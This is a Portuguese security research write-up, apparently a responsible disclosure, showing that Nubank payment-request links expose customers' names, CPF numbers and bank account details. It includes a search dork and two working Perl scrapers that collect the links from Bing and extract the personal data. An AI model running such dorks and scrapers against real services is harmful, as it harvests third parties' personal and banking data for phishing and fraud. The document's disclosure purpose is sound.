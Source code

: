 ```yaml
---
layout: content
title: 'Um pequeno caso de scraping de dados pessoais expostos na web'
description: 'Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta vários clientes.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Tabela de conteúdo:
- [Resumo](#sumario)
- [Descrição](#descrição)
- [Prova de conceito](#prova-de-conceito)
- [Impacto](#impacto)
- [Conclusão](#conclusão)
- [Referências](#referencias)

### Sumário

Durante a realização de uma pesquisa de segurança em aplicações mobile, foi identificado um recurso no aplicativo do Nubank que permite a criação e o envio de "links de cobrança" para múltiplos destinatários. Foi identificada uma vulnerabilidade nessa funcionalidade que  possibilitou mapear dados pessoais, como CPF, nome completo, número e agência da conta de vários clientes.

**DISCLAIMER**: A empresa responsável foi informada sobre todos os detalhes dessa pesquisa no menor tempo possível e respondeu de maneira ética e transparente, demonstrando atenção e comprometimento com a segurança da funcionalidade. Durante os testes realizados, não houve invasão ou violação de sistemas. Além disso, a empresa implementou algumas medidas corretivas para reduzir os riscos associados ao problema relatado. Recomendações adicionais foram fornecidas para mitigar a vulnerabilidade, porém a empresa optou por não implementá-las integralmente.

- Esta publicação também está dispoível em: [Espanhol](/2020/06/23/caso-de-scraping-de-dados-personales) e [Inglês](/2020/06/23/Scraping-personal-data-exposure-in-the-web);

---

### Descrição

Dentro do aplicativo do Nubank, existe um recurso denominado "Cobrar". Seu funcionamento consiste em:
1. preencher um valor (opcional);
2. clicar em "Confirmar";
3. um QR Code é gerado, e o usuário pode compartilhá-lo ou enviar a cobrança por meio de outros aplicativos, como o WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)


O conteúdo do QR Code é o mesmo link que pode ser compartilhado por aplicativos de mensagens. Quando esse link é aberto no navegador, o seguinte resultado é obtido:

![](/images/publications/nubank-scraping/personal-infos.png)

São expostos, sem qualquer tipo de controle, alguns dados do usuário que gerou o link, como: nome completo, CPF, número da conta bancária e agência. O único requisito para obter essas informações sensíveis[1] é possuir a URL.

A URL é gerada exclusivamente pelo cliente em seu aplicativo, sendo também de responsabilidade do cliente decidir como e com quem compartilhá-la.

Entretanto, essas URLs são indexadas por motores de busca, o que permite a utilização de dorks[2] para identificar mais URLs relacionadas a esse serviço. 

Dork para restringir a busca ao site principal do Nubank, onde as URLs contenham o padrão "/pagar/" e excluam resultados envolvendo o blog:

```text
site:nubank.com.br inurl:/pagar/ -blog
````

Resultado:

![](/images/publications/nubank-scraping/google-dorks.png)

Além disso, foi possível observar que alguns usuários estavam publicando essas URLs em canais públicos, como o Twitter. Um uso comum da funcionalidade seria para o recebimento de doações.

![](/images/publications/nubank-scraping/twitter-links.png)

---

### Prova de conceito

Para demonstrar o impacto do abuso dessa funcionalidade, foi criada uma prova de conceito. A primeira parte consiste na construção de um código capaz de utilizar um motor de busca para coletar o maior número possível de URLs. Foi desenvolvido, então, um scraper[3] utilizando o Bing:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Com esse código, foram coletadas 100 URLs válidas — o número foi limitado a 100 pois o intuito era apenas uma demonstração, por se tratar apenas de uma demonstração, mas poderia ser muito maior:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

Após a coleta das URLs em um arquivo `.txt`, foi desenvolvido outro scraper para extrair os dados das páginas do Nubank:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

E então, o resultado obtido:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

CPF, nome completo, número da conta e agência de 100 pessoas, em apenas alguns minutos e com poucas linhas de código.

---

### Impacto

A possibilidade de um atacante abusar dessa funcionalidade disponível nos sistemas do Nubank é alta devido à facildade de exploração. Isso pode expor diversos usuários, vazando informações sensíveis, como demonstrado anteriormente. Além disso, um atacante com posse desses dados pode utilizá-los para aplicar golpes por meio de abordagens de engenharia social extremamente direcionadas.

---

### Conclusão

Esta análise, demonstra que um agente malicioso poderia implementar scrapers para mapear URLs de cobrança do Nubank e, posteriormente, coletar as informações pessoais presentes nessas páginas. O artigo apresentou uma PoC utilizando um motor de busca, mas há espaço para outras possibilidades, como a exploração de dados publicados em redes sociais (Twitter, Facebook, etc.). Esse cenário representa um risco real, podendo tornar clientes do Nubank em alvos de ataques de spear phishing e engenharia social.

---

### Referências

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
